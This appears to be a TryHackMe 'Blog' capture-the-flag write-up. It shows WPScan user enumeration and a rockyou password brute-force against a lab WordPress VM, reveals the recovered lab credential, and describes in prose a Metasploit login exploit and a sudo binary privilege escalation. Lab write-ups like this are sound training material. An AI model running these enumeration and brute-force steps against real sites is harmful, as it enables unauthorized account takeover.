








# Blog - Try Hack Me

Reference: [Blog](https://tryhackme.com/room/blog)

Level: Medium

---

Recognition:



We've seem that there's a Wordpress instance running on this VM. Let's WPscan it to get more info especialy on the users.

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ wpscan --url http://10.10.58.84/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.58.84/ [10.10.58.84]
[+] Started: Sun Jan 14 14:47:41 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.58.84/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.58.84/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.58.84/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.58.84/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.58.84/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.58.84/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.58.84/, Match: 'WordPress 5.0'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <========================================> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.58.84/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.58.84/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan 14 14:47:53 2024
[+] Requests Done: 59
[+] Cached Requests: 5
[+] Data Sent: 12.478 KB
[+] Data Received: 271.453 KB
[+] Memory used: 152.855 MB
[+] Elapsed time: 00:00:12

```

We've obtain obtain 2 logins:

```
bjoel
kwheel
```

With WPscan we are searching for a password:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ wpscan -U user.txt -P /usr/share/wordlists/rockyou.txt --url http://10.10.58.84/
[+] Performing password attack on Xmlrpc against 2 user/s
...
[SUCCESS] - kwheel / cutiepie1
...
```

The following step took me a long time to find. Now we have the login/password with metasploit we can login into the server using a Wordpress exploit:





Then I spent hours figuring out how to escalate this VM. As you can see bellow there's a false flag. In the list of executables with sudo permissions there's the one in the folder named `sbin` this executables is not common that should had ring a bell sooner to me.



When we try to execute it, it says that we're not admin. Let's us ltrace to show the dependencies of this file, it requires a env variable named admin.



To root the VM we had a env variable named admin with the value true. Then when we run the executable we are elevating to root priv.

The root flag is pretty easy to find.



The user flag is inside the `/media/usb`:


